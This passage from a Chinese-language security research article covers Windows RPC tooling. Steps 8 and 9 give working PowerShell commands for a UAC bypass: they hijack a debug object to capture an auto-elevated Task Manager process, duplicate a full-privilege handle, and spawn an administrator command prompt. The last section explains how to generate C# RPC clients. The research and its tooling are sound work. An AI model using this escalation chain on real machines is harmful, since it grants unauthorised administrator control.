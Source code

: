 **步骤8：**创建已提升的进程，这里我们可以选择能够自动提升权限的应用（比如任务管理器）。此时分配给已提升进程的调试对象通常会与我们在步骤7中得到的调试对象相同，除非我们运气实在太差，另一个线程已经响应RPC请求，现在我们可以暂时忽略这个问题。此时我们可以在调试对象上等待获取初始进程创建调试事件，然后从该事件中提取已提升进程的句柄。这里需要注意一点，初始调试事件中返回的句柄并没有具备完整特权，其中不包含`PROCESS_SUSPEND_RESUME`，因此我们无法从调试对象detach进程。然而我们具备`PROCESS_DUP_HANDLE`访问权限，因此可以使用`Copy-NtObject`，从已提升的进程中复制当前进程的伪句柄（`-1`），拿到完整特权的句柄。

```
$p = Start-Uac "c:\windows\system32\taskmgr.exe" -RunAsAdmin
$ev = Start-NtDebugWait -Seconds 0 -DebugObject $dbg
$h = [IntPtr]-1
$new_p = Copy-NtObject -SourceProcess $ev.Process -SourceHandle $h
Remove-NtDebugProcess $dbg -Process $new_p
```

**步骤9：**现在`$new_p`变量应该会包含完整特权的进程句柄。如果想快速实现高权限下任意代码执行，可以使用该句柄作为父进程来创建一个新的进程。比如我们可以使用如下命令，以管理员身份弹出一个命令提示符：

```
New-Win32Process "cmd.exe" -ParentProcess $new_p -CreationFlags NewConsole
```

以上就是一个典型的利用案例，希望大家能对该工具更加熟悉。



## 0x05 通过C#使用RPC客户端

最后我想介绍下如何在C#代码中使用该工具。编译C#文件比较简单，可以在PowerShell中使用`Format-RpcClient`命令，或者从C#中使用`RpcClientBuilder`类，从经过解析的RPC服务端中生成该文件。PowerShell可以很方便解析一个目录中的多个可执行文件，然后使用如下命令解析所有`system32` DLL，在输出路径中生成单独的C#文件，这样就能为每个服务端生成对应的客户端。

```
$rpcs = ls "c:\windows\system32\*.dll" | Get-RpcServer
$rpcs | Format-RpcClient -OutputPath "cs_output"
```

接下来可以根据需要使用已生成的C#文件，将解析文件加入Visual Studio项目中或者手动编译。我们还需要从NuGet上获取[NtApiDotNet](https://www.nuget.org/packages/NtApiDotNet/)库，以便生成正常的本地RPC客户端代码。这种方案虽然只能在Windows上使用，但应该适用于.NET Core。

如果想使用客户端，可以编写如下C#代码，其中`using`语句需要根据RPC的接口ID及版本来修改。

```
using rpc_201ef99a_7fa0_444c_9399_19ba84f12a1a_1_0;

Client client = new Client();
client.Connect();
client.RAiLaunchAdminProcess("c:\windows\system32\notepad.exe", ...);
```

我们可以将其他选项传递给`Format-RpcClient`，改变输出结果。比如我们可以指定命名空间、客户端名称等。由于生成所有客户端是比较费时的一个操作（特别是想适配所有Windows版本时），并且大家也有需要解析公共符号，因此我专门解决了这种需求。我在Github上的公开了[WindowsRpcClient](https://github.com/tyranid/WindowsRpcClients)项目，已经预先为Windows 7、Windows 8.1以及Windows 10 1803、1903和1909生成对应的客户端。由于代码采用自动生成方式，没有许可证约束，因此大家可以自由使用（但我们还是需要使用`NtApiDotNet`库）。
